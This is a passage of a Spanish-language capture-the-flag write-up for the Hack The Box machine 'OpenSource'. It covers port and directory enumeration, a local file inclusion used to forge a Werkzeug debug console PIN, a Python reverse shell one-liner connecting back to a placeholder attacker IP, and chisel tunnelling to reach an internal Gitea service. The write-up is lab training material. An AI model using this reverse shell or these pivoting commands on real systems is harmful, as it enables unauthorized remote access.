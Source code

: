 # OpenSource

![OpenSourcew](https://user-images.githubusercontent.com/97627828/174652864-db0b100b-bf24-4f44-b614-aed5a43e254c.png)

## Initial Enumeration

```
❯ sudo nmap -sS -sV -O -sC -v -p22,80,3000 opensource.htb 
Starting Nmap 7.92 ( https://nmap.org ) at 2022-06-20 13:41 EDT
Nmap scan report for opensource.htb (10.10.11.164)
Host is up (0.096s latency).

PORT     STATE    SERVICE VERSION
22/tcp   open     ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.7 (Ubuntu Linux; protocol 2.0)
80/tcp   open     http    Werkzeug/2.1.2 Python/3.10.3
3000/tcp filtered ppp
```
Comenzaremos interactuando con el puerto 80.

![image](https://user-images.githubusercontent.com/97627828/174655163-f66d3f8c-2586-4b3a-9bba-ebcf6f5a5861.png)

Tras inspeccionar el código fuente de la web se encuentra lo siguiente:
- /download: permite descargar un archivo .ZIP con lo que parece el código fuente de la app que permite la carga de archivos al servidor web.

  ![image](https://user-images.githubusercontent.com/97627828/174656635-94cacc71-e4a9-4998-8a45-6ee78094a71c.png) 
  - Al descargar el archivo source.zip encontramos lo siguiente:

    ![image](https://user-images.githubusercontent.com/97627828/174657965-cac681eb-c08f-4ae3-b77b-884f4fe7d013.png)

- /upcloud: función de carga de archivos al wervidor web.

  ![image](https://user-images.githubusercontent.com/97627828/174657055-234ac1d4-be90-409f-b3c5-5e00dcda9820.png)

- /uploads/nombre-del-archivo-subido (url en la que la página almacena los archivos que se suben, al visitarla se descarga el archivo subido previamente).

  ![image](https://user-images.githubusercontent.com/97627828/174657164-0126a1e7-afbc-4e28-b9c7-d1f150139f74.png)


Para continuar descubriendo directorios, se utiliza "gobuster"
```
❯ sudo gobuster dir -u http://opensource.htb -w /usr/share/dirbuster/wordlists/directory-list-lowercase-2.3-medium.txt                                                                                                                   
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://opensource.htb
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/dirbuster/wordlists/directory-list-lowercase-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Timeout:                 10s
===============================================================
2022/06/20 13:57:07 Starting gobuster in directory enumeration mode
===============================================================
/download             (Status: 200) [Size: 2489147]
/console              (Status: 200) [Size: 1563] 
```
Llama la atención el directorio /console, no encontrado previamente. Al visitarlo nos encontramos con lo siguiente:

  ![image](https://user-images.githubusercontent.com/97627828/174658439-5c27e163-6fba-4ca5-b959-3ed76f416704.png)

## Primera manera de conseguir user.txt ##

Tras realizar una búsqueda en _San Google_ se encuentra el siguiente repositorio https://github.com/wdahlenburg/werkzeug-debug-console-bypass en donde se indica que los servidores Werkzeug tienen una consola para debugging que exije un PIN para ejecutar comandos y que en caso de encontrar una vulnerabilidad LFI se podría generar un PIN válido y de esta manera ejectutar comandos en el servidor. 

El primer paso es encontrar la LFI, para ello recurro a Burpsuite, dado que los archivos se almacenan en /uploads empezaremos por ahí. Bingo! Existe LFI:

  ![image](https://user-images.githubusercontent.com/97627828/174660689-71d3fa57-afe2-400c-b69c-fefae745ee9c.png)

Siguiendo los pasos indicados en https://github.com/wdahlenburg/werkzeug-debug-console-bypass se consigue obtener un PIN válido para la consola y finalmente se consigue acceso a la consola de python.

  ![image](https://user-images.githubusercontent.com/97627828/174661686-8733597a-5ddc-4ddd-8e84-bf21d0e54688.png)
  ![image](https://user-images.githubusercontent.com/97627828/174662127-bf140d1d-5b40-4f9f-acc4-b5d6bf77edeb.png)

Como se puede visualizar en la imagen, se ejecutan los comandos en la consola python y se obtiene el código de salida de python de cada comando. El siguiente paso es ejecutar una reverse shell en python, para ello pondre un puerto a la escucha con el comando `nc -lvp <puerto>` y utilizaré el comando `import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("KALI-IP",KALI-PORT));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);`

Se obtiene así la primera shell. Al listar el contenido de la raíz se observa un archivo ".dockerenv"  por lo que se sabe que estamos dentro de un contenedor Docker, lo cual encaja con el hecho de que la shell obtenida sea como usuario root.

Para continuar con el pivoting, tras una larga búsqueda se comprueba que el puerto 3000 inicialmente inaccesible, se encuentra ahora accesible en la ip 172.17.0.1 correspondiente con el host del contenedor docker. 
 ![image](https://user-images.githubusercontent.com/97627828/174666337-481ff02d-d80e-4480-86ca-3f5a4fab8cb1.png)
 ![image](https://user-images.githubusercontent.com/97627828/174666547-fd032f01-cd7a-4442-a582-2433c1ba8052.png)

Para poder visualizar el contenido del servidor web desde el navegador de mi máquina, se reallizará un tunel con chisel. Para ello se deberán llevar a cabo los siguientes pasos:
 - Descargar chisel en mi máquina y compilarlo (imprtante comprobar la versión, si se producen errores cambiar la versión descargada de chisel).
 - Trasladar el binario a opensource.htb utilizando `wget`.
 - Ejecutar en mi máquina `./chisel server -p 8888 --reverse`
 - Ejecutar en el docker `./chisel client kali-ip:8888 R:8000:172.17.0.1:3000`
 - Abrir en  mi navegador `http://localhost:8000`
 - ![image](https://user-images.githubusercontent.com/97627828/174667867-9e9a983e-10dd-48fa-bc41-d46f97434a2a.png)
Se visualiza el contenido a travéz del navegador:

![image](https://user-images.githubusercontent.com/97627828/174667969-0f833332-3061-4f06-a7c3-82c68d46ee4c.png)

Dado  que encontramos Gitea, es momento de volver al archivo "source.zip" descargado anteriormente con la carpeta ".git"





